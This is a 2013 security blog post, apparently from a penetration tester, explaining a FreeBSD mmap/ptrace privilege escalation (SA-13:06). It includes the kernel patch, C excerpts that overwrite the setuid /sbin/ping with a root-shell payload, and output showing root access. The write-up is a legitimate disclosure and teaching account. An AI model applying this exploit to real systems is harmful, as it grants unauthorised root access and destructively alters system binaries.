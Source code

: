 ```yaml
---
layout: post
title: I feel lucky - or why I wrote a FreeBSD 1-day in one day
author: hugsy
tags:
- freebsd
- pentest
date: 2013-06-20 00:00 +0000
---
```


Sometimes life gives you eggs for free, you just need to spend some time making an omelet. That's exactly what happened to me on a recent engagement for a client: a typical PHP webapp full of holes left me with a nice stable shell access.

But at that point I was stuck: I had a limited account (`www`) on this FreeBSD 9.1 (almost) up-to-date box, and interestingly  the privilege separation was done correctly enough to prevent me from getting `root` access simply by abusing the usual suspects (weak FS permission, setuid bins, privileged scripts and the likes).

So it was with little hope I decided to take a look at the [recent advisories for FreeBSD](https://www.freebsd.org/security/advisories/) which I really like because they are well maintained. One title struck my eye immediately: [SA-13:06.mmap - Privilege escalation via `mmap`](https://www.freebsd.org/security/advisories/FreeBSD-SA-13:06.mmap.asc), published the day right before!

I decided to look into it at first with not much hope, thinking the exploit would be crazy hard to trigger and heavily deep inside FreeBSD kernel. The description was actually (on purpose?) quite generic

> Due to insufficient permission checks in the virtual memory system, a tracing process (such as a debugger) may be able to modify portions of the traced process's address space to which the traced process itself does not have write access.

But the [patch](http://security.FreeBSD.org/patches/SA-13:06/mmap.patch) gave me a better idea of the issue:

```
Index: sys/vm/vm_map.c
===================================================================
--- sys/vm/vm_map.c	(revision 251636)
+++ sys/vm/vm_map.c	(working copy)
@@ -3761,6 +3761,12 @@ RetryLookup:;
 		vm_map_unlock_read(map);
 		return (KERN_PROTECTION_FAILURE);
 	}
+	if ((fault_typea & VM_PROT_COPY) != 0 &&
+	    (entry->max_protection & VM_PROT_WRITE) == 0 &&
+	    (entry->eflags & MAP_ENTRY_COW) == 0) {
+		vm_map_unlock_read(map);
+		return (KERN_PROTECTION_FAILURE);
+	}

 	/*
 	 * If this page is not pageable, we have to get it for all possible
```

It kindda gave a good pointer of where to start: the usual rule for setuid dictates that a write access should immediately imply losing the elevated privilege. But this is where the bug was: by `mmap` a setuid binary (which any user can do), I can then choose to `ptrace` the process, and use `PT_WRITE` command to overwrite the `mmap`-ed memory, effectively overwriting the setuid binary!

_Note_: I was in a rush, so my exploit is partially destructive as I overwrite directly the setuid binary. If you choose to use it, please make a copy to be able to restore it.

My exploit was in 4 parts:

1. `mmap` the target binary (here I chose `/sbin/ping`)
```c
int fd = open("/sbin/ping", O_RDONLY);
caddr_t addr = mmap(NULL, LEN, PROT_READ, MAP_SHARED, fd, 0);
```

2. `fork` to passe to be the mmaped address to a process I can attach to using `ptrace()`

3. in the parent process, I attach to the child process and then prepare a basic payload to substitute the original code with
```c
	if (ptrace(PT_ATTACH, pid, 0, 0) < 0) {
		perror("[-] ptrace(PT_ATTACH) failed");
		return;
	}
   [...]
   int fd = open("./sc.c", O_WRONLY|O_CREAT,  S_IRUSR | S_IWUSR | S_IRGRP | S_IWGRP | S_IROTH);
	write(fd,
         "#include <stdio.h>\n"\
         "main(){ "\
         "char* s[]={\"/bin/sh\",NULL};"\
         "setuid(0);execve(s[0],s,0); }\n",
         84);
	close(fd);
	system("gcc -o ./sc ./sc.c");
```

4. all done, we could now copy our payload 1 DWORD at a time using `ptrace(PT_WRITE_D)`
```c
   fd = open("./sc", O_RDONLY);
	while (1) {
		int a;
		int n = read(fd, &a, sizeof(int));
		if (n <= 0) break;
		ptrace(PT_WRITE_D, pid, mmap_setuid_address+i, a);
		i+=n;
	}
```

Done! Simply execute the target binary to get a root shell.

```bash
 $ id
 uid=1001(user) gid=1001(user) groups=1001(user)
 $ gcc -Wall ./mmap.c && ./a.out
 [+] Saved old '/sbin/ping'
 [+] Using mmap-ed area at 0x281a4000
 [+] Attached to 3404
 [+] Copied 4917 bytes of payload to '/sbin/ping'
 [+] Triggering payload
 # id
 uid=0(root) gid=0(wheel) egid=1001(user) groups=1001(user),0(wheel)
```

By nature, this exploit is very stable and I was able to report that I had `root` access to my customer :)
I was undeniably lucky to find exactly the privesc I need just exactly when I needed it (kudos to Konstantin Belousov & Alan Cox for the finding), but it also taught me that there can be a huge difference of postponing applying patches, even if for one day...

Cheers mates!

PS: for the full [quick'n dirty exploit](https://gist.github.com/hugsy/5933831)

